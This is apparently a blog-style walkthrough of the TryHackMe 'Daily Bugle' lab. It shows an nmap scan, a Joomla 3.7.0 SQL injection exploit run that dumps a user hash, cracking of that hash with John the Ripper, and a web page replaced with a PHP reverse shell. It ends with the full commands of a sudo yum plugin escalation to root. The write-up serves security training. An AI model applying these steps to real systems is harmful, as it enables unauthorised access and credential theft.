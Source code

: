 ```yaml
---
layout : post 
title: dailybungle

date: 2021-04-25 01:43 +0530

tags: [John TheRipper ,  gtfobin yum]
---
```


# Nmap

```
 nmap -sC -sV 10.10.10.5  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 01:50 EDT
Nmap scan report for 10.10.10.5 (10.10.10.5)
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)

```

# Exploitation

joomblah 3.7.0 is vulnerble for SQLI 

```
python exploit.py  http://10.10.10.5                 
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```
<h3>JohnTheRipper</h3>
cracking the hash of jonah 

copy the hash to password_hash

>john  --wordlist=~/rockyou.txt password_hash

```
john  --wordlist=~/rockyou.txt password_hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:05:15 0.20% (ETA: 2021-04-26 21:51) 0g/s 108.9p/s 108.9c/s 108.9C/s 010294..ultraviolet
spiderman123     (?)
1g 0:00:07:09 DONE (2021-04-25 01:48) 0.002328g/s 109.0p/s 109.0c/s 109.0C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
`jonah:spiderman123`

![]({{site.baseurl}}/img/tryhackme/dailyBugle/login.png)

Gaining ReverseShell

![]({{site.baseurl}}/img/tryhackme/dailyBugle/processn.png)

lets replace the index.php code with [PHPReverseShell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php): code 

![]({{site.baseurl}}/img/tryhackme/dailyBugle/edit.png)

![]({{site.baseurl}}/img/tryhackme/dailyBugle/revshell.png)

got the revershell

![]({{site.baseurl}}/img/tryhackme/dailyBugle/gotshell.png)


# PrivilageEsclation

from linpeasout put at `/var/www/html/configuration.php`

![]({{site.baseurl}}/img/tryhackme/dailyBugle/config.php.png)

got password `jjameson:nv5uz9r3ZEDzVjNu`

user jjameson can rum yum as root without passwd 

![]({{site.baseurl}}/img/tryhackme/dailyBugle/sudo.png)

```
[jjameson@dailybugle tmp]$ TF=$(mktemp -d)
[jjameson@dailybugle tmp]$ cat >$TF/x<< EOF  
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle tmp]$ 
[jjameson@dailybugle tmp]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle tmp]$ 
[jjameson@dailybugle tmp]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>    os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle tmp]$ 
[jjameson@dailybugle tmp]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# wgoami
sh: wgoami: command not found
sh-4.2# whoami
root
sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
eec3d53292b1821868266858d7fa6f79

```




